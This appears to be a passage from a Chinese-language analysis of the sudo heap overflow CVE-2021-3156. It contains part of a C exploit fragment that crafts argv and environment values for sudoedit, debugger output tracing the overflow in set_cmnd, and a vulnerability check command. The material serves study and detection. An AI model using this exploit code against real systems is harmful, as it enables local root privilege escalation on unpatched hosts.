 ```c
			obuf,
			NULL
		};

		char *extra_args[] = {
			"X/X\\",
			"a",
			"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAA",
			NULL,
		};

		execve(args[0], args, extra_args);

		// execvpe("./sudoedit", args, extra_args);

}
```

漏洞产生的代码在`plugins/sudoers/sudoers.c` 的`set_cmnd`函数
![image.png](./assets/1659510805764-a5b72a1b-65cf-4f56-85d5-0c0ba428f3ff.png)

首先通过 854 处，为` sudoedit -s `后的字符长度分配内存空间， 即 `user_args`, 当代码处理到 866 处的时候， 如果参数为如下结构，即
```c
pwndbg> p NewArgv[0] 
$4 = 0x55555557183e "sudoedit" 
pwndbg> p NewArgv[1] 
$5 = 0x7ffffffee13 "BBBBBB\\" 
pwndbg> p NewArgv[2] 
$6 = 0x0 
pwndbg>
```

第一次拷贝 会将 B 拷贝到` user_args `里，然后` from ++`<br />当 B 拷贝完，` from[0] == '\\'` ， 且`from[1] `不为空的时候， 此时` from ++` , 然后又进到这个 `while` 循环，` from` 后面的数据
```c
pwndbg> p from[0] 
$3 = 92 '\\' 
pwndbg> p from[1] 
$4 = 0 '\000'
```

这个时候` from `后面的数据为环境变量设置的数据, 即这里此时` from[0] 为 X/X` 。最终结果就是 `user_args `被越权。

参考链接：<br />[https://bestwing.me/CVE-2021-3156-analysis.html](https://bestwing.me/CVE-2021-3156-analysis.html)
[https://blog.csdn.net/weixin_46483787/article/details/125552056](https://blog.csdn.net/weixin_46483787/article/details/125552056)

# 0X05 漏洞复现
漏洞验证
```
sudoedit -s /
```
![image-20211104225041044.png](./assets/1659510075511-ae3bb23b-b0bc-42ea-8bea-f7b6adb021de.png)
报错开头以sudoedit则存在漏洞，报错以usage开头，则不受影响。
